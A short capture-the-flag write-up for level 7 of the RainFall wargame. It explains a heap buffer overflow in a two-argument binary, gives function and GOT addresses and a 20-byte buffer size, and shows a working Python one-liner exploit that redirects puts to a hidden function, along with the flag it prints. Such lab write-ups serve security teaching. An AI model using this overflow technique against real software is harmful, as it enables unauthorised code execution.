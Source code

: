 # level 7

This level is also about buffer overflow, but this time, it takes two parameters

```sh
level7@RainFall:~$ ./level7 a
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a a
```

We can see that the program takes two parameters and the second one is not used. Let's check the assembly code of the program with gdb in the [gdb writeup](gdbwriteup.md).

----

Address of the function `m`:

```as
0x080484f4
``` 

Address of the function `puts`:

```as
0x8049928
```

Size of the buffer:
20 bytes

Let's write the exploit:

```sh
./level7 $(python -c "print('a' * 20 + '\x28\x99\x04\x08')") $(python -c "print('\xf4\x84\x04\x08')")
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1674958669
```